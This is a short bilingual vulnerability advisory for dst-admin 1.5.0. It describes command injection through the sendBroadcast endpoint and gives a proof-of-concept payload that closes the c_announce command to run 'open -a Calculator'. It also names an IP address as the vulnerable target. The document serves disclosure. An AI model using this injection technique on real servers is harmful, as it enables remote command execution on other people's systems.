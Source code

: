 ## Dst-admin 1.5.0 background sendBroadcast interface remote command execution

An issue was discovered in dst-admin v1.5.0. The product has an background sendBroadcast interface remote command execution that can expose sensitive information.

Vulnerability address：http://101.42.5.89:8080/



### Vulnerability exploitation

通过get请求`/home/sendBroadcast`接口，传入message，value为“open -a Calculator”之类的命令的字符串，可远程执行命令。

执行时需要将message的值URL编码处理，不然会返回400报错。

POC如下：

```java
\")\n"&open -a Calculator&screen -S "DST_CAVES" -p 0 -X stuff "TheNet:Kick(\"
```

Through the get request '/home/sendBroadcast' interface, a string of commands such as message and value "open - a Calculator" is passed in to execute commands remotely.
The value URL of message needs to be encoded during execution, otherwise an error of 400 will be returned.
The POC is as follows:

```java
\")\n"&open -a Calculator&screen -S "DST_CAVES" -p 0 -X stuff "TheNet:Kick(\"
```

<img src="./pic/1.png" alt="1" style="zoom:200%;" />

通过后台打印日志可以看出通过c_announce执行message，所以需要闭合c_announce命令，才能执行命令。

The spooling log shows that the message is executed through c_announce, so the c_announce command needs to be closed before the command can be executed.

<img src="./pic/2.png" alt="1" style="zoom:200%;" />

命令执行成功。

The command was executed successfully.

<img src="./pic/3.png" alt="1" style="zoom:200%;" />